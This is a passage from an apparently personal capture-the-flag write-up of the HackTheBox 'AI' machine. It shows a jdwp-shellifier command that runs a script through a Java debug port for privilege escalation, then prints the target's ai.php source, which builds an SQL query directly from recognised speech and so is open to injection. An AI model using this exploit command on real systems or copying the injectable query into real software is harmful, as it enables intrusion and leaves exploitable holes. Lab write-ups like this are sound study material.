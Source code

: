 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-21-HackTheBox-AI/2021-09-21-HackTheBox-AI%2008:28:26.png)

```sh
python jdwp-shellifier.py -t 127.0.0.1 --break-on "java.lang.String.indexOf" --cmd '/dev/shm/0x4rt3mis.sh'
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-21-HackTheBox-AI/2021-09-21-HackTheBox-AI%2008:40:09.png)

Got it.

# Source Code Analysis

We can do a code analysis on the php files to understand what is happening and how we can identify it.

We see many files on the `/var/www/html` folder

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-21-HackTheBox-AI/2021-09-21-HackTheBox-AI%2008:45:43.png)

We read the `ai.php` which were posting the wav files to the server

```php
<?php
error_reporting(E_ALL);
include("db.php");
if(isset($_POST["submit"]))
{
        $file = rand(0,1000000).'.wav';
        $target_file = "uploads/".$file;
        if(move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file))
        {
                $output = exec("/usr/bin/python 5075140835d0bc504791c76b04c33d2b.py $target_file");
                $sql = "select output from alexa where query='$output'";
                $result = mysqli_query($conn,$sql);
                if($result->num_rows > 0)
                {
                        $row = mysqli_fetch_assoc($result);
                        $out = "Query result : ".$row["output"];
                }

                else
                {
                        $out="Query result : ".mysqli_error($conn);
                }
                        $msg = 'Our understanding of your input is : '.$output;
                        exec("rm /var/www/html/uploads/*");
        }
        else
        {
                $msg = 'Something went wrong :(';
        }
}
?>
```
